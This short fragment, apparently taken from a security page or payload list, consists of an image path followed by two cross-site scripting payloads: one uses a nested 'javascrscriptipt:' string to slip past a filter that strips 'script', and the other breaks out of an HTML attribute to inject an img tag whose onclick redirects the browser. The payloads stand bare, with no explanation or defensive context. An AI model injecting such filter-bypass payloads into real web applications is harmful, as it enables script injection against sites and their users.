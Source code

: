Payloads:

`javascrscriptipt:alert(onclick=window.location="http://google.com")`

`http://Test"><img src=x onclick=window.location="http://google.com">`